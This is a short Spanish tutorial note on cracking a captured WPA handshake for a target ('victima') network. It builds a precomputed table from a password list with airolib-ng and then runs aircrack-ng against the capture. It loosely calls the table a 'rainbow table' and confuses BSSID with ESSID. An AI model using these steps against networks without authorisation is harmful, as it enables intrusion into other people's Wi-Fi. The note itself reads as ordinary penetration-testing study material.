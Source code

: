 Las [[Rainbow table]] son diccionarios de contraseñas con la diferencia que están contienen la contraseña y el valor hash que representa, con el fin de que el proceso de el ataque de fuerza bruta sea mucho mas eficaz.

Con ayuda de la herramienta de airolib-ng de la familia de aircrack podemos construir una rainbow table.

	airolib-ng diccPre --import passwd dicc.txt
Creamos la tabla proporcionando el nombre que tendrá esta e importando el diccionario en texto plano con el parámetro *passwd*.

	echo "ESSID_victima" > essid.lst
Creamos un archivo con el bssid del AC que deseamos atacar.
-.essid.lst [[Airolib-ng#Archivo lst|Archivo lst]].

	airolib-ng diccPre --import essid essid.lst
Importamos el essid al igual que las passwords

	airolib-ng diccPre --stats
Para saber si todo si importo correctamente, podemos observar las passwords y el essid asociado.
``` bash
There are 1 ESSIDs and 1 passwords in the database. 0 out of 1 possible combinations have been computed (0%).

ESSID	Priority	Done
BSSID_victima	64	0.0
```

	airolib-ng diccPre --clean all
Limpia la basura de la db.

	airolib-ng diccPre --batch
Comienzo a procesar las contraseñas para tener ya el diccionario reprocesado 

	aircrack-ng -r diccPre CapturaDeAuth-01.cap
Realizamos el ataque de fuerza bruta con aircrack
-r *Indicamos que el diccionario es una db por lo tanto lo toma como una rainbow table*













### Notas
#### Archivo .lst
La extensión de archivo LST se utiliza para un archivo de lista de datos y se refiere a varios tipos de información que es utilizada por múltiples tipos de programas. Listas como estos pueden ser transferidos a cualquier programa de base de datos o aplicación de hoja de cálculo.